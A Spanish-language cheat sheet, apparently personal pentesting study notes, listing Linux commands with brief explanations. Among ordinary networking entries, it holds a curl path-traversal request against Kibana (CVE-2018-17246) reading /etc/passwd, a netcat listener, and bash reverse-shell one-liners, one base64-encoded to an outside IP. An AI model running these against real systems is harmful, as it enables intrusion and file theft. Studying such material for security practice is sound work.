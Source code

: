 # General
- `tcpdump -i enp0s3 -w captura.cap -v` -> Capturar tráfico TCP usando adaptador enp0s3 y guardarlo en archivo captura.cap.
- `wireshark captura.cap` -> Analizar archivo .cap con wireshack.
- `&>/dev/null` -> Redirigir stderr y stdout al /dev/null.
- `wireshark & disown` -> Ejecutar proceso o programa en segundo plano.
- `lsof -i:80` -> Verificar que servicio está corriendo en el puerto indicado.
- `pdwx 1355887` -> Verificar en que ruta se encuentra el servicio (PID) que se está ejecutando.
- `tshark -r captura.cap -Y "http" 2>/dev/null` -> Leer los paquetes mediante terminal del archivo .cap, filtrando el resultado por "http".
- `hostname -I` -> Mi dirección IP.
- `-t 20` -> Añadir comando a un proceso para ejecutarlo usando 20 hilos en paralelo, lo cual aumenta la velocidad drásticamente.
- `kill %` -> Matar proceso en segundo plano, el cuál queda después de hacer ctrl + z.
- `wget enlacedearchivo` -> Descargar archivo de internet desde terminal.
- `git sparse-checkout init`, `git sparse-checkout set kibana/CVE-2018-17246` -> Dividir el repositorio de github clonado para solo usar la carpeta que se requiere, estando dentro del repositorio descargado.
- `curl -s -X GET "http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd"` -> Enviar petición HTML a una url, de modo silencioso sin mostrar el verbose (-s), mediante el método GET (-X).
- `nc -nlvp 443` -> Poner en escucha netcat por el puerto 443.
- `script /dev/null -c bash` -> Crear consola interactiva de bash.
- `pushd /home/pastor/` -> Ir a un directorio de trabajo.
- `popd` -> Regresar al directorio en el cual se ejecutó pushd, en este caso /home/pastor/.
- `python3 -m http.server 80`  -> Montar servidor en máquina local por el puerto 80 usando python.
- `echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d; echo` -> Decodificar cadena en base64 a texto claro y mostrarlo en pantalla sin el # del final.
- `echo -n "/bin/bash -i >& /dev/tcp/172.17.0.1/4646 0>&1" | base64`    -> Codificar texto en base64, con la opcion -n para no incluir un salto de linea y se vea afectado el resultado.
